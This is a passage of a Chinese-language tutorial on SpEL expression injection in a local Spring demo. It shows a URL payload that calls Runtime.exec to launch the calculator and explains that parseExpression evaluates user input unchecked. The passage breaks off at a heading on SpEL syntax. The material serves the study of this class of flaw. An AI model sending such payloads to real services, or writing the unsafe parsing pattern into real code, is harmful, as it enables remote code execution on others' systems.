 然后重载一下maven，运行Demo文件，就可以访问了

> http://localhost:8080/greet?name=%22Hello%20World%22

返回：Result: Hello World

### 尝试命令注入

> http://localhost:8080/greet?name=T(java.lang.Runtime).getRuntime().exec('calc')

![image-20250812223725905](./images/专题漏洞/image-20250812223725905.png)

成功弹出计算机

### 原理

传入的参数 `T(java.lang.Runtime).getRuntime().exec('calc')`

这个参数传入到代码中

```java
Expression exp = parser.parseExpression(name); // name 是用户输入
exp.getValue(); // 执行表达式
```

### SpEL 表达式语法解释
